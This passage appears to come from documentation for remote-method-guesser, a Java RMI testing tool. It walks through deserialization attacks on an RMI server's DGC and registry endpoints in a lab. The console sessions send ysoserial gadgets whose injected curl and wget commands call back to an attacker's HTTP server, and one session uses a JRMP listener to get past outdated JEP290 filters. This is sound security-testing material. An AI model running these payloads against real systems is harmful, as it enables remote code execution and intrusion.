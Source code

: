 To confirm that the server is vulnerable you can perform a dedicated *deserialization attack* on the *DGC level* (*DGC* = *Distributed Garbage Collector*,
a *remote object* that is available on almost each *RMI endpoint*). This can be done
by using the ``dgc`` action of *remote-method-guesser*, which allows you to send *ysoserial* gadgets to the *DGC endpoint*:

```console
[qtc@kali ~]$ rmg --ssl 172.18.0.2 9010 dgc CommonsCollections6 "curl 172.18.0.1:8000/vulnerable"
[+] Creating ysoserial payload... done.
[+] Attempting ysoserial attack on DGC endpoint...
[+] 
[+] 	Caught ClassCastException during deserialization attack.
[+] 	Deserialization attack most likely worked :)

[...]

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.18.0.2 - - [27/Dec/2020 06:16:00] code 404, message File not found
172.18.0.2 - - [27/Dec/2020 06:16:00] "GET /vulnerable HTTP/1.1" 404 -
```

The callback from the server shows that the attack was successful. With *JEP290* installed, the server would have rejected the deserialization instead.

Whereas the deserialization filter on the *DGC* is very strict and there are currently no known bypasses, the *RMI registry* itself needs to allow more
classes to be deserialized in order to work correctly. This was abused for some bypasses in the past, where the two most prominent bypasses are the
*JRMPClient* gadget of the [ysoserial project](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/JRMPClient.java) and
the [RemoteObjectInvocationHandler bypass](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/) by [An Trinh](https://twitter.com/_tint0).
Both of them can be used together with *remote-method-guesser's* ``reg`` action and possibly bypass an outdated *JEP290* installation.

Notice that both bypass gadgets cannot be used to execute code directly. Instead they create an outbound *RMI* connection, which is no longer protected
by the deserialization filters. This outbound channel can now be used for deserialization attacks. The most common way to do this is probably using
[ysoserials JRMPListener](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java) and since it is so common,
*remote-method-guesser* has builtin a shortcut (``listen``) to launch this listener.

```console
[qtc@kali ~]$ rmg 172.18.0.2 9010 reg JRMPClient 172.18.0.1:4444
[+] Creating ysoserial payload... done.
[+] 
[+] Attempting deserialization attack on RMI registry endpoint...
[+] 
[+] 	Caught ClassCastException during deserialization attack.
[+] 	The server uses either readString() to unmarshal String parameters, or
[+] 	Deserialization attack was probably successful :)


[qtc@kali ~]$ rmg 0.0.0.0 4444 listen CommonsCollections6 "wget 172.17.0.1:8000/vulnerable"
[+] Creating a JRMPListener on port 4444.
[+] Handing off to ysoserial...
* Opening JRMP listener on 4444
Have connection from /172.18.0.2:40704
Reading message...
Is DGC call for [[0:0:0, -1407888899]]
Sending return with payload for obj [0:0:0, 2]
Closing connection


```